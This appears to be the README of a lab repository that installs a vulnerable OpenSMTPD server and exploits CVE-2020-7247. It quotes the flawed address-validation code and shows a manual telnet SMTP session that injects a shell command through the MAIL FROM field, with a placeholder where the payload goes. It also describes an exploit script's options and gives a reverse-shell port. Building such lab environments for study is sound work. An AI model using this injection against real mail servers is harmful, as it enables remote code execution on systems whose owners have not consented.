

- [Foreword](#foreword)
- [Key facts about the exploit](#key-facts-about-the-exploit)
- [Installing the vulnerable server](#installing-the-vulnerable-server)
  - [Configuration](#configuration)
  - [Environment disclaimers](#environment-disclaimers)
- [Exploit](#exploit)
  - [Manual Exploitation](#manual-exploitation)
  - [Scripted Exploitation](#scripted-exploitation)
# Foreword
This repository should serve as a base to set up and exploit [CVE-2020-7247](https://nvd.nist.gov/vuln/detail/CVE-2020-7247) in a controlled and private environment. All of the published code and configuration is solely ment for testing this vulnerability and not for abusing it against systems that are not your own/you don't have the permission to exploit them. The owner of this repository is not to be held accountable for the use of this tools by third parties.

# Key facts about the exploit
The main issue in the code is that the mail validation does not work. It allows potentially dangerous characters to be passed in the `MAIL FROM` and `RCPT TO` fields. \
The if the local part of the mail adress is invalid it is treated as valid because the code adds the domain part to it and interprets it as valid afterwards. This allows the attacker to execute abitiary code. 
```
2189 static int
2190 smtp_mailaddr(struct mailaddr *maddr, char *line, int mailfrom, char **args,
2191     const char *domain)
2192 {
....
2218         if (!valid_localpart(maddr->user) ||
2219             !valid_domainpart(maddr->domain)) {
....
2229                 if (maddr->domain[0] == '\0') {
2230                         (void)strlcpy(maddr->domain, domain,
2231                             sizeof(maddr->domain));
2232                         return (1);
2233                 }
2234                 return (0);
2235         }
2236
2237         return (1);
2238 }
```
The code should look like the following in order to be safe:
```
2189 static int
2190 smtp_mailaddr(struct mailaddr *maddr, char *line, int mailfrom, char **args,
2191     const char *domain)
2192 {
....
2218         if (!valid_localpart(maddr->user) ||
2219             !valid_domainpart(maddr->domain)) {
....
2234                 return (0);
2235         }
2236
2237         return (1);
2238 }
```
Opensmtpd goes on to execute a so called MDA command. The command is used for delivering mail. It looks like the following:
```
asprintf(&dispatcher->u.local.command,
            "/usr/libexec/mail.local -f %%{mbox.from} %%{user.username}");
``` 
Here you may already see the problem. `mbox.from` is the senders address which is under complete control of the attacker. \ 
The attacker is however limited to only use characters in the shellcode which are not in the following list: `!#$%&'*/?^{|}~+-=_!#$%&'*?{|}~` \
[Fully disclosed here](https://seclists.org/fulldisclosure/2020/Jan/49)

# Installing the vulnerable server
One is free to choose the distribution to run the server on. I tested it on Ubuntu 18.04 LTS.  \
Execute `chmod +x setup.sh` in order to make the setup script executable. You can use it with a normal user since I only included `sudo` rights in the script wherever it is needed. (Of course your user needs to be a sudoer) \
The setup script will install all required dependencies for `smtpd` itself and copy the configuration to their respective locations. \
Opensmtpd 6.6.1 will be installed. \ 
If you need to run openstmpd manually or the script has some error execute the following:
```
cd /usr/local/sbin
sudo smtpd
OR 
sudo smtpd -dv for debugging output
``` 

## Configuration
The configuration in this repository are just ment for local testing. They do not include external domains/advanced configuration. \
`aliases` and `smtpd.conf` are the two configuration files necessary for the setup of this server. You are free to change them as you want. Keep in mind that the configuration was ment for my testing server. My servername was `ase` (smtpd.conf `@ase` directive) and my username was `ase` (aliases user configuration). \
You will have to replace `<YOUR IP>` in `smtpd.conf` with the IP of your server. Otherwise smtpd will not start up.  

## Environment disclaimers
In case you stumble upon any ip adresses and ports in this environment here are some key facts about the environment I used so you can change them accordingly:
* Server name: `ase`
* Username: `ase`
* SMTPD servers IP: `192.168.1.40`
* SMTPD Port: `25`
* Attackers IP: `192.168.1.31`
* Port for reverse shell: `1337`
  
# Exploit
The provided export uses Python 3.x. It uses the dependency `pwn`. In order to use this exploit you need to install `pwntools` using `pip3 install pwntools`. \
Basically the exploit automatically exploits the vulnerability without requiring user interaction. However the exploit can be done manually without the python script.
## Manual Exploitation
As mentioned before the exploit may be executed without the provided python script. You will have to follow through the SMTP process manually. This can be done by either using netcat or telnet. \
Here is one example on how this can be done manually: 
```
telnet <Your Servers IP> 25
HELO attacker
250 ase Hello attacker [<client IP>], pleased to meet you
MAIL FROM:<;INSERT YOUR SHELLCODE HERE;>
250 2.0.0 Ok
RCPT TO:<root>
250 2.1.5 Destination address valid: Recipient ok
DATA
354 Enter mail, end with "." on a line by itself

Oh no you got pwned
.
250 2.0.0 48bb34d2 Message accepted for delivery
```
## Scripted Exploitation
You may aswell use the provided script. The following parameters are possible
* `--targetHost` specifies the target and is required.
* `--targetPort` specifies the target port and is required.
* `--customCommand` specifies the command to inject.
* `--remoteShellCode` specifies the remote shellcode to load. protocol:// prefixes are not supported since they will be filtered by opensmtpd!

Note: Either `--customCommand` or `--remoteShellCode` are required to be filled and they *can not* be used in combination. \
[shellcode.sh](shellcode.sh) serves as an example on how remote shell code may look like. \
Disclaimer: Remote shell code execution does not work right now, I will need to look into that.



